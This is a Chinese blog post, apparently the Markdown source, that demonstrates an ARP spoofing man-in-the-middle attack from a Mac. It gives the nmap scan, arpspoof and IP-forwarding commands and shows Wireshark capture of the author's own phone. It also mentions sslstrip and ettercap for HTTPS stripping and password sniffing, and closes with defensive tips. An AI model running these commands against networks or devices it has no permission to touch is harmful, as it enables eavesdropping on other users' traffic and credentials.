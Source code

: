 ```yaml
---
title: Macos进行局域网arp欺骗
date: 2016-05-10 11:09:02
tags: [osx, arpspoof, wireshark]
---
```


之前知乎看到一篇通过手机app就能直接监听到局域网内的其他用户的数据包，并且自动抓取图片和嗅探密码的答案，觉得这样也能成功实在太夸张了。于是自己实现一下，App开发不来，就在Mac上进行好了（事实上用到的也都是别人写好的程序）

#### 安装工具

首先安装[Macport](https://www.macports.org/), 它是一个类似于apt-get和brew的一个包管理工具，通过port我们可以很方便的安装需要的各种工具。

如果安装之后发现仍然找不到port命令的，可以

~~~
export PATH=/opt/local/bin:/opt/local/sbin:$PATH
~~~

将其加入到系统路径里来。

port安装好之后就可以开始安装各种工具了

~~~
sudo port install arpspoof
sudo port install nmap
~~~

其实还有`sslstrip`和`ettercap`，不过后面两个更多的用于攻击，我们只需要体验一下中间人攻击就好了，~~事实上是ettercap安装不成功~~。

#### nmap扫描整个局域网段

直接执行命令

~~~
sudo nmap -sS 192.168.1.0/24
~~~

结果如下：

~~~
Starting Nmap 7.12 ( https://nmap.org ) at 2016-05-09 17:50 CST
Nmap scan report for 192.168.1.1
Host is up (0.0022s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
1900/tcp open  upnp
MAC Address: ▇▇:▇▇:▇▇:▇▇:▇▇:▇▇ (Tp-link Technologies)

Nmap scan report for 192.168.1.111
Host is up (0.0062s latency).
Not shown: 999 closed ports
PORT      STATE SERVICE
62078/tcp open  iphone-sync
MAC Address: ▇▇:▇▇:▇▇:▇▇:▇▇:▇▇ (Apple)

Nmap scan report for 192.168.1.112
Host is up (0.000017s latency).
All 1000 scanned ports on 192.168.1.112 are closed (500) or filtered (500)

Nmap done: 256 IP addresses (3 hosts up) scanned in 51.06 seconds
~~~

其中192.168.1.1是局域网的网关，192.168.1.111是我的手机，192.168.1.112是我的本机。这是特意趁家里只有我一个人的时候扫描的，一旦有其他人接入wifi，就会出现更多的结果。

暂时不清楚这个工具的原理，有的时候不会显示手机的结果，当然一个可能的原因是iphone待机时自动断wifi，而不是工具的锅。

扫描过后就可以通过查看路由表来查看局域网内的ip信息了

~~~
~netstat -r
Routing tables

Internet:
Destination        Gateway            Flags        Refs      Use   Netif Expire
default            192.168.1.254      UGSc          323        0     en0
127                localhost          UCS             1        0     lo0
localhost          localhost          UH             28  4818622     lo0
169.254            link#4             UCS             1        0     en0
192.168.1          link#4             UCS             4        0     en0
192.168.1.207      link#4             UHLWIi          1        2     en0
192.168.1.208      link#4             UHLWIi          1        2     en0
192.168.1.250/32   link#4             UCS             1        0     en0
192.168.1.254/32   link#4             UCS             2        0     en0
192.168.1.254      ▇▇:▇▇:▇▇:▇▇:▇▇:▇▇  UHLWIir       324       16     en0    171
192.168.1.255      link#4             UHLWbI          1       12     en0
224.0.0            link#4             UmCS            2        0     en0
224.0.0.251        ▇▇:▇▇:▇▇:▇▇:▇▇:▇▇  UHmLWI          1        0     en0
255.255.255.255/32 link#4             UCS             1        0     en0

Internet6:
Destination        Gateway            Flags         Netif Expire
localhost          localhost          UHL             lo0
fe80::%lo0         fe80::1%lo0        UcI             lo0
fe80::1%lo0        link#1             UHLI            lo0
fe80::%en0         link#4             UCI             en0
shaobos-macbook-pr ▇▇:▇▇:▇▇:▇▇:▇▇:▇▇  UHLI            lo0
fe80::%awdl0       link#9             UCI           awdl0
shaobos-macbook-pr ▇▇:▇▇:▇▇:▇▇:▇▇:▇▇  UHLI            lo0
ff01::%lo0         localhost          UmCI            lo0
ff01::%en0         link#4             UmCI            en0
ff01::%awdl0       link#9             UmCI          awdl0
ff02::%lo0         localhost          UmCI            lo0
ff02::%en0         link#4             UmCI            en0
ff02::%awdl0       link#9             UmCI          awdl0
~~~
这是我在公司未扫描时的结果，可以看到只包含部分信息，但是如果`ping`一个不在表内的ip，这个新的ip就会被添加到路由表中。

通过这个步骤，我们就能知道局域网里还有哪些机器，然后我们就可以选定一个目标，开始攻击了。

#### arp欺骗
这里选用我的手机192.168.1.111进行攻击，使用`arpspoof`。

~~~
arpspoof -i en0 -t 192.168.1.111 192.168.1.1
~~~

这个命令是告诉192.168.1.111这个机器，我是192.168.1.1，也就是你的网关，你的包就发给我吧，这样我就能在我的en0上监听到来自192.168.1.111的发包了。

但是这样一来，192.168.1.111就断网了，因为它的包发给了我，而没能转发出去。这个时候手机上会出现一个比较奇怪的现象，就是微信能收到小伙伴的消息，但是却发不出去。实测有极少量的消息还是发送出去了，可能是由于我们的arp欺骗是持续反复进行的，中间的间隙导致了包还是发给了网管。但是无论如何，这个时候目标机器的网络连接是不正常的。

#### ip转发

打开ip转发功能后，就能把192.168.1.111的包转发给网管了，命令如下：

~~~
sysctl -w net.inet.ip.forwarding=1
~~~

本来以为会有各种复杂的设置，比如哪些转发，哪些不转，比如怎么转，转到哪去之类的。结果发现，打开之后，我的手机直接就能正常上网了，丝毫没有异样。~~这时，我们就能放心大胆的进行监听而不用担心被发现了~~。

#### 抓包

抓包的方法很多，最方便的还是[wireshark](https://www.wireshark.org/)。直接监听之前设置的端口en0，然后设置过滤条件`ip.src == 192.168.1.111`，然后就可以看到目标机器的各种请求了。

这里上个监听结果的图

![](/uploads/sniffer_result.png)

其中，右上角的小图是我的朋友圈截图，大图是我在手机上点开图片之后，在Mac上监听到的请求，然后在浏览器上打开的结果。如果是在看视频，则会监听到连续的视频片段，可以一段一段下载下来看到。

#### More
当然我们这里仅仅监听了目标机器发送的包，同样的原理，我们可以欺骗网关，我们才是目标机器，这样我们就能监听到双向的消息了，而且目标机器仍然能够正常上网。

在这基础上，通过`sslstrip`可以建立假的`https`链接，这样就能明文看到本来是通过`https`加密过的消息，但是这样一来，目标机器是否还能正常使用不明，有待后续尝试。

通过`ettercap`则可以方便的完成上述过程，并且自动嗅探出其中的账号密码信息，估计就是加入一些常用的账号密码字段，或者关键字来提取的吧。

#### 防范
可以看到，这个方法的杀伤力还是很可怕的，虽然伤害范围有限，但是如果应用到出租屋，宾馆这种环境中，还是非常危险的。所以在公共场合还是尽量少的链接公共wifi。

关于防范措施，要么没必要防范，比如自己家中的wifi，设好密码不让外人连就好，要么没有权限防范，比如宾馆这种，路由不归你管。如果要在自己机器这个层面上防范暂时不知道有没有什么简单的方法，windows机器可以安装360防火墙，手机不明。

所以最好的方法还是定期修改密码，所有账号都绑定手机和安全邮箱，在公共wifi不登录敏感的账号等等。
